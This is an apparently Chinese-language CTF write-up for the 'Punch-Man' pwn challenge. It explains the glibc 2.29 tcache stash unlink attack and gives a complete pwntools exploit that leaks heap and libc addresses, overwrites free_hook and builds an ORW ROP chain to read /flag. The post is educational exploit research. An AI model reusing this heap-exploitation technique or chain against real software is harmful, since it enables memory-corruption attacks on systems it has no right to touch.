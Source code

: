 ---
title: Tache Stash Unlink Attack:Punch-Man
date: 2021-06-24 10:49:43
tags:
layout: default
----
Punch-Man & tache stash unlink attack
<!--more-->
# **prologue**

很棒的一题，主要使用了libc-2.29下利用 `small bin tache stash` tacache中有6个chunk的情况，攻击效果是类似于之前版本的 `unsorted bin attack` 往任意地址写固定值。

# **analyze**

- libc=2.29
- 保护全开+orw
- UAF
- malloc范围限制在small bin范围

UAF比较明显，很容易泄漏heapbase&libcbase,主要难在利用，因为题目用的是calloc所以不从tcache里面取，有个隐藏菜单可以malloc 0x217，但仅限于tcache满的时候。

所以在这种情况下，tcache和small bin的路已经被锁死了，需要用 `small bin`相关的利用来扩大利用。

# **tcache stash in small bin**

libc 2.29引入的新机制，可以在[这里][1]看看，和本题相关的简单来说当tcache未满时从small bin取下一个时会将剩下的chunk放入tcache，但是检查不严格。如下可以看到，没有检查bck的fd是不是victim。

```c
#if USE_TCACHE
          /* While we're here, if we see other chunks of the same size,
             stash them in the tcache.  */
          size_t tc_idx = csize2tidx (nb);
          if (tcache && tc_idx < mp_.tcache_bins)
            {
              mchunkptr tc_victim;
              /* While bin not empty and tcache not full, copy chunks over.  */
              while (tcache->counts[tc_idx] < mp_.tcache_count
                     && (tc_victim = last (bin)) != bin)
                {
                  if (tc_victim != 0)
                    {
                      bck = tc_victim->bk;//*
                      set_inuse_bit_at_offset (tc_victim, nb);
                      if (av != &main_arena)
                        set_non_main_arena (tc_victim);
                      bin->bk = bck;
                      bck->fd = bin;
                      tcache_put (tc_victim, tc_idx);
                    }
                }
            }
#endif
```

这里的利用方式有很多，本题中因为最少只能有6个chunk在tcache中（0x220），能达成的效果只有类似unsorted bin atk。

构造方式: small bin 有2个chunk，tcache有6个chunk.

构造small bin 第二个chunk的 fd不变，bk为需要写的地址-0x10。

calloc 掉一个smallbin就可以触发，往构造的地址写一个固定的值。

# **solution**

我想到的比较方便的是攻击global_max_size。

我的思路：要想获得任意地址写可以走small bin 可以走tcache，但是tcache比较简单先试试tcache；因为只能malloc一个所以要么直接控制heap开始的时候那个tcache结构体要么把计数器改成很大（这个试了一下发现因为寄存器存值所以失败了）；然后目标是tcache结构体，现有能力是任意地址写固定值，所以就自然而然地改掉global_max_size然后fast bin atk

# **EXP**

```c
from pwn import *
context.arch='amd64'
context.log_level='debug'

context.terminal=['tmux','split','-h']
def cmd(c):
    p.sendlineafter("> ",str(c))
def add(idx,size):
    cmd(1)
    p.sendlineafter(": ",str(idx))
    p.sendafter(": ",size*"A")
def free(idx):
    cmd(4)
    p.sendlineafter(": ",str(idx))
def edit(idx,c):
    cmd(2)
    p.sendlineafter(": ",str(idx))
    p.sendafter(": ",c)
def show(idx):
    cmd(3)
    p.sendlineafter(": ",str(idx))
def punch(c="A"):
    cmd(0xc388)
    p.send(c)
p=process('./pwn')

for x in range(2):
    add(0,0x217)
    free(0)
show(0)
p.readuntil("name: ")
heap=u64(p.readline()[:-1]+b'\0\0')-0x260
for x in range(5): 
    add(0,0x217)
    free(0)

add(0,0x217)
add(1,0x217)
free(0)
show(0)
p.readuntil("name: ")
base=u64(p.readline()[:-1]+b'\0\0')-(0x7ffff7fbfca0-0x7ffff7ddb000)
free(1)
# clear
for x in range(7):
    add(0,0x248)
    free(0)
add(0,0x217)
add(1,0x88)
add(1,0x217)
add(2,0x88)
free(0)
free(1)
add(2,0x248)
punch()
edit(1,p64(0x2160+heap)+p64(0x7ffff7fc1600-0x7ffff7dda000+base-0x10))
add(0,0x217)
free(2)
edit(2,p64(heap))

add(2,0x248)
add(2,0x248)

free_hook=0x1e75a8+base
edit(2,'\0'*0x248)
edit(2,b'\0'*0x20+b'\7'*8+b'\0'*0xa0+p64(free_hook)*0x10)
punch(p64(0x7ffff7f2a550-0x7ffff7dda000+base))

#++++++++++++++++++++++++++++++
# Before starting this module, I 
# hope you have set free_hook
# ==> magic gadget <3 
chunk=heap+0x10
# chunk is Free's first Parameter
#+++++++++++++++++++++++++++++++
payload=p64(0)+p64(chunk)+b'\0'*0x10+p64(0x55e35+base)
libc=ELF("/lib/x86_64-linux-gnu/libc-2.29.so")
libc.address=base
rop = ROP(libc)
sys = rop.find_gadget(['syscall','ret'])[0]
rsp=chunk
rdi=0
rsi=rsp
rdx=0x110
rbp=rsi-8
rcx=sys
payload=payload.ljust(0x68,b'\0')+flat([rdi,rsi,rbp,0,rdx,0,0,rsp,rcx])
edit(2,payload)
gdb.attach(p,'b free')
free(2)

rop.read(3,chunk+0x110,0x100)
rop.write(1,chunk+0x110,0x100)
rop.dump()
pyaload_rw =rop.chain()

rax = rop.find_gadget(['pop rax','ret'])[0]
rdi = rop.find_gadget(['pop rdi','ret'])[0]
rsi = rop.find_gadget(['pop rsi','ret'])[0]
rdx = rop.find_gadget(['pop rdx','ret'])[0]
pyaload_open =flat([rax,0x2,rdi,chunk+0xf8,rsi,0,rdx,0,sys])
pay = pyaload_open+pyaload_rw
p.send(pay.ljust(0xf8,b'\0')+b'/flag\0')

p.interactive()
```

[1]: https://n132.github.io/2021/05/09/New-Check-In-Glibc-2-29.html